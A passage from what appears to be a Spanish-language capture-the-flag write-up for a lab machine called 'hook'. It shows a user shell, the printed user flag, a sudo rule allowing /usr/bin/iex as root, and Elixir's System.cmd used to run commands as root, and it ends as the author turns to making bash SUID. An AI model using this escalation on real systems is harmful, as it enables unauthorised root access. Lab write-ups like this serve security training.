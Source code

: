 Info:

```
noname@hook:/var/www/html/htmLawed$ whoami
noname
```

Veremos que seremos dicho usuario, por lo que leeremos la `flag` del usuario.

> user.txt

```
2ee7e8d7f8f2b515c0bdf19d5ce85e17
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for noname on hook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User noname may run the following commands on hook:
    (root) NOPASSWD: /usr/bin/iex
```

Vemos que podemos ejecutar el binario `iex` como el usuario `root`, por lo que podremos hacer lo siguiente:

```shell
sudo iex
```

Info:

```
Erlang/OTP 25 [erts-13.1.5] [source] [64-bit] [smp:1:1] [ds:1:1:10] [async-threads:1] [jit:ns]

Interactive Elixir (1.14.0) - press Ctrl+C to exit (type h() ENTER for help)
iex(1)>
```

Ahora si hacemos `h()` para ver el `help`, en el propio `help` no veremos nada interesante, pero si buscamos su documentacion, veremos que podremos ejecutar comandos utilizando el siguiente comando `System.cmd/2` por lo que haremos esto.

```shell
System.cmd("whoami", [])
```

Info:

```
{"root\n", 0}
```

Veremos que esta funcionando, vamos a establecer con permisos `SUID` la `bash` directamente.
